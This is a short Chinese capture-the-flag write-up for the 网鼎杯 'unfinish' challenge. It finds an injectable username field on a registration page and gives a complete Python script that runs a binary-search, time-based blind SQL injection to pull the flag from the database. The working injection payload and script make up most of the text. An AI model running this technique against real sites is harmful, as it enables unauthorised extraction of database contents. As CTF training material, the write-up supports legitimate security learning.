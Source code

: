 > 网鼎杯

发现注册页

![](./images/unfinish/注册页.png)

注入username字段成功

![](./images/unfinish/hackbar.png)

编写二分时间盲注脚本

```python
import requests
import time

url = "http://61.147.171.35:65370/register.php"
data = {
    'email': 'spark@panic404.cn',
    'username': '',
    'password': '1'
}

def inject_post():
    result=""
    s = requests.Session()
    
    # 二分搜索
    for i in range(1,1000):
        # 可打印字符范围
        low=32
        high=128
        mid=(low+high)//2

        while low<high:
            payload=f"0'+(CASE WHEN ascii(substr((select * from flag) from {i} for 1))<{mid} THEN sleep(1) ELSE 1 END)+'0"
            data['username'] = payload
            data['email'] = f"{i}_{mid}@b.com"
  
            start_time=time.time()
            s.post(url=url,data=data,verify=False,allow_redirects=False) # 不跟随重定向
            end_time=time.time()

            if end_time-start_time>1:
                high=mid
            else:
                low=mid+1
            mid=(low+high)//2
            
        if mid<33 or mid>127:
            break
        result += chr(mid-1)
        print(result)

inject_post()
```

输出

![](./images/unfinish/flag输出.png)

<p style="text-align: right;">
by. Spark0618
</p>

